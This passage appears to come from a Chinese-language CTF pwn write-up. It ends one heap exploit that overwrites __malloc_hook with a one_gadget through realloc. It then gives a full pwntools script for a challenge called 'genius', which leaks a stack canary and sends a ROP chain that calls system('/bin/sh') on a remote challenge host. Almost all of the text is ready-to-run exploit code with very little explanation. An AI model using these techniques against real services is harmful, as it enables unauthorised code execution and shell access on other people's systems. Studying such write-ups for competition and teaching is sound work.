 ```python
realloc = libc_base + libc.sym['realloc']
log.info(f"libc_base: {hex(libc_base)}")
ogg = [0x4f29e, 0x4f2a5, 0x4f302, 0x10a2fc]
delete(0)
edit(0, 0x20, p64(__malloc_hook - 0x8))
add(3, 0x20)
add(4, 0x20)
edit(4, 0x20, p64(libc_base + ogg[3]) + p64(realloc + 8)) #realloc调整栈帧让ogg满足条件
debug()
add(5, 0x20)


p.interactive()

```

## genius-区域
泄漏canary后正常构造ROP链即可
```python
from pwn import *
from wstube import websocket
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12000'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b function3
        ''')

pop_rdi = 0x4013f3
pop_rsi_r15 = 0x4013f1
ret = 0x40101a
elf = ELF(elf_path)
system_addr = elf.symbols['system']

p.sendlineafter(b'or no?', b'no')
p.sendlineafter(b'modest.', b'thanks')
debug()
p.sendafter(b'init', b'a' * 0x18 + b'b')
p.recvuntil(b'ab')
canary = u64(b'\x00' + p.recv(7))
log.info('canary: ' + hex(canary))
stack = u64(p.recv(6) + b'\x00' * 2)
log.info('stack: ' + hex(stack))
p.recvuntil(b'you')
payload = b'a' * 0x18 + p64(canary)
payload += b'b' * 0x8 + p64(ret) + p64(pop_rdi) + p64(stack + 0x18) + p64(system_addr) + b'/bin/sh\x00'
p.sendline(payload)

p.interactive()
```